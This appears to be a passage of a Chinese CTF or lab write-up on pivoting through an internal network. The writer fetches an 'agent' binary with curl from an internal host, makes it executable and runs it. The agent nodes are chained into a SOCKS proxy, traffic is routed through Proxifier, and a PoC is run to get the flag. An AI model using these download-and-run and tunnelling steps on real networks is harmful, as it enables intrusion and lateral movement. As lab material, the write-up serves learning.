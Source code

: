 检查 `yunwei-app` 的版本。
```sh
uname -m
x86_64
```

继续用端口转发下载 `agent`。
```sh
curl http://172.19.0.3:8888/agent_linux_x64 -o agent
chmod 777 agent
```

WP 说的是反向连接，但是我没成功，我用的是正向连接。
![[Pasted image 20241212224526.png]]

yunwei-app 上：
```sh
./agent -lport 5002
```

node1 连接。
```
connect 172.19.0.2 5002
```

连接成功
```
goto 2
```

返回 `node2` 的代理
```
socks 1002
```

在本地配好 `proxifier`。
![[Pasted image 20241212235216.png]]

![[Pasted image 20241212235616.png]]

再用 poc 打

终于！！！，找到 flag 了
![[0eb1b72f1e614a86abd99e3f18e0fbb0.png]]